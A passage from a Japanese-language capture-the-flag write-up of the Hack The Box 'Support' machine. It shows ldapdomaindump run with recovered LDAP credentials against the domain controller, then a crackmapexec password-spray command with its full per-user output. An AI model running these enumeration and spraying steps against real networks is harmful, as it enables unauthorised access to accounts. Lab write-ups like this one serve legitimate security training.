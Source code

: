 ```sh
```

ldapdomaindumpも実行する
```bash
sudo ldapdomaindump ldaps://10.129.230.181 -u 'support.htb\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

OSの詳細な情報がわかった
![](https://i.imgur.com/IR97Ffd.png)

また、ユーザーグループのhtmlから、リモートアクセスできるユーザーはsupportのみであることも、わかった
![](https://i.imgur.com/XayoVdM.png)

![](https://i.imgur.com/K6Vg01z.png)


LDAPのパスワードで、パスワードスプレー攻撃をする
- 特に同じパスワードを使っているユーザーはいなかった
```bash
crackmapexec smb 10.129.230.181 -u valid_user.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | grep '+'

SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.181  445    DC               [-] support.htb\Administrator:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\Guest:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\krbtgt:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
SMB         10.129.230.181  445    DC               [-] support.htb\support:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\smith.rosario:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\hernandez.stanley:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\wilson.shelby:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\anderson.damian:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\thomas.raphael:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\levine.leopoldo:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\raven.clifton:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\bardot.mary:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\cromwell.gerard:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\monroe.david:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\west.laura:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\langley.lucy:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\daughtler.mabel:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
SMB         10.129.230.181  445    DC               [-] support.htb\stoll.rachelle:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz STATUS_LOGON_FAILURE 
```